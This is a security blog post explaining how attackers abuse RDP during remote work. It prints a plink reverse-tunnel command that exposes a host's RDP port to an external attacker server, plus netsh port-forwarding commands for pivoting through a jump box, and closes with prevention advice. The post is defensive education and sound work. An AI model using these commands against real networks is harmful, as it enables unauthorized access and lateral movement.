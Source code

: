```yaml
---
layout: post
title:  "Exploiting Remote Workers with RDP"
description: "A brief post on how RDP access can be exploited by attackers"
date:   2020-03-27 13:00:01 +0000
tags: [Blue-Team, Red-Team, Pentest, Security]
---
```


![Attacking RDP](/blog/assets/malware.png)

## Introduction

Remote Desktop Protocol (RDP) or the Microsoft Remote Desktop Services (MSRDS) is used at various organisations for the convenience of
system administrators, engineers, and usually a small pool or remote workers. With the recent outbreak of COVID-19 we are now seeing
unprecedented use of this protocol to facilitate remote working for all employees.

However, there is a darkside to RDP; It is known that sophisticated attackers can abuse this level of access to facilitate external access
into internal networks. This access is normally blocked by a firewall or security gateway device, but once a foothold has been established, 
an attackers will launch their tried and tested techniques of persistence:
 * sniffing/searching for credentials, 
 * installing keyloggers 
 * installing backdoors
 * installing additional malware/ransomware?
 
![RDP Out](/blog/assets/RDP-tunnel-out.png)

Figure 1. Traffic from the Internet is blocked by the firewall. However, a misconfigured firewall permits enterprise network traffic to reach the attacker server.

## RDP Tunneling

A common tool on windows used to tunnel RDP sessions is PuTTY Link (plink):
 * [https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

Plink can be used to establish a Secure SHell (SSH) connection to an external system using arbitrary ports. You may think this communication
is one way, like fetching a webpage in a browser, but actually this opens up the possibility for the attacker to open up a two-way communication
channel. 

This particular method has been used by the APT groups FIN7 & FIN8 to attacker banking systems.

![RDP 2-way comms via tunnel](/blog/assets/RDP-tunnel-comms.png) 

Figure 2. Using a plink tunnel, an attacker can set up a communication tunnel between their attacking server, and the compromised network host.

Example command:
```
plink.exe <users>@<IP or domain> -pw <password> -P 22 -2 -4 -T -N -C -R 12345:127.0.0.1:3389
```
At this point it should be noted that for an attacker to be able to RDP to a system, they must already have access to the system through other means of compromise in order to create or access the necessary tunneling utility. 
 * For example, an attacker’s initial system compromise could have been the result of a payload dropped from a phishing email aimed at establishing a foothold into the environment.
 * Also plink is not installed on systems by default, but is one of the favourite system administrator tools, so either the attacker has found this already installed, or has installed it themselves.
 
## Jump Box / Pivoting

RDP sessions can be daisy-chained across multiple systems as a way to move laterally through a network. Our Incident Response Team has observed threat actors using the native Windows Network Shell (netsh) command to utilise RDP port forwarding as a way to access newly discovered segmented networks reachable only through an administrative jump box.

Example netsh Port Forwarding Command:
```
netsh interface portproxy add v4tov4 listenport=8001 listenaddress=<JUMP BOX IP> connectport=3389 connectaddress=<DESTINATION IP>
```
Example Shortened netsh Port Forwarding Command:
```
netsh I p a v l=8001 listena=<JUMP BOX IP> connectp=3389 c=<DESTINATION IP>
```
For example, a threat actor could configure the jump box to listen on an arbitrary port for traffic being sent from a previously compromised system. The traffic would then be forwarded directly through the jump box to any system on the segmented network using any designated port, including the default RDP port TCP 3389. This type of RDP port forwarding gives threat actors a way to utilize a jump box’s allowed network routes without disrupting legitimate administrators who are using the jump box during an ongoing RDP session.

## Prevention and Detection of RDP Tunneling
If RDP is enabled, threat actors have a way to move laterally and maintain presence in the environment through tunneling or port forwarding. To mitigate vulnerability to and detect these types of RDP attacks, organizations should focus on both host-based and network-based prevention and detection mechanisms.

### Host-Based Prevention:

 * Disable the remote desktop service on all end-user workstations and systems for which the service is not required for remote connectivity.
 * Enable host-based firewall rules that explicitly deny inbound RDP connections.
 * Prevent the use of RDP using local accounts on workstations by enabling the “Deny log on through Remote Desktop Services” security setting.
 
### Network-Based Prevention:

 * Where RDP is required for connectivity, enforce the connection to be initiated from a designated jump box or centralized management server.
 * Employ the “Deny log on through Remote Desktop Services” security setting for privileged accounts (e.g. domain administrators) and service accounts, as these types of accounts are commonly used by threat actors to laterally move to sensitive systems in an environment.
 
## Conclusion

RDP enables IT environments to offer freedom and interoperability to users. But with more and more threat actors using RDP to move laterally across networks with limited segmentation, security teams are being challenged to decipher between legitimate and malicious RDP traffic. Therefore, adequate host-based and network-based prevention and detection methods should be taken to actively monitor for and be able to identify malicious RDP usage.
